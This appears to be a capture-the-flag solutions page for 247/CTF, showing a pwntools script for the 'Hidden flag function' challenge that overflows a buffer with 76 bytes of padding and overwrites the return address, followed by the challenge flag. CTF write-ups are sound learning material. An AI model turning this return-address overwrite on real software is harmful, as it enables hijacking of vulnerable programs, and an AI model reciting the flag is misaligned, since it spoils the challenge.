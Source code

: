 ## 247/CTF - Pwnable solutions
https://247ctf.com/

### Hidden flag function

```python
from pwn import *

io = remote('513cee9f2f0c29f5.247ctf.com', 50166)
# io = process('./hidden_flag_function')
# io = gdb.debug('./hidden_flag_function', 'b*chall+46')

payload = cyclic(76)
payload += p32(0x08048576)
io.sendline(payload)
io.interactive()

# 247CTF{b1c2cb7d5a43939f8dc73369ec2dd59d}
```
